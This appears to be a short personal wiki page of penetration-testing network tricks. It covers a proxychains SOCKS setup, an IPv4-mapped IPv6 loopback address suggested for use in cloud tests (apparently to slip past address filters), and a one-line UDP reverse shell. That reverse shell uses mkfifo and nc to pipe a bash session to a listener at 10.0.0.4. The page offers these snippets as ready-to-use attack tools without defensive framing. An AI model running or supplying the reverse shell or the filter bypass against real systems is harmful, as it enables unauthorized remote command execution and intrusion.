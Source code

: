 ```yaml
---
title: General Network Tricks
description: A quick summary of Generalnetworktricks
published: true
date: 2023-01-28T18:14:58.426Z
tags: 
editor: markdown
dateCreated: 2022-10-01T21:19:34.651Z
---
```


# Proxychains

/etc/proxychains4.conf
```
[ProxyList]
socks5 localhost 12345
```

$proxychains bash
$anything in that bash session is proxied

# Funky addressing
May be able to use this on AWS/GCP/Azure tests
```
::ffff:127.0.0.1
```

# One line UDP Callback
note the HI is there so that the listener will open the connection. It will then be able to talk back to sender.
```
rm fifo; mkfifo fifo; nc -u 10.0.0.4 9998 < fifo | { echo "HI"; bash; } > fifo 2>&1  
```
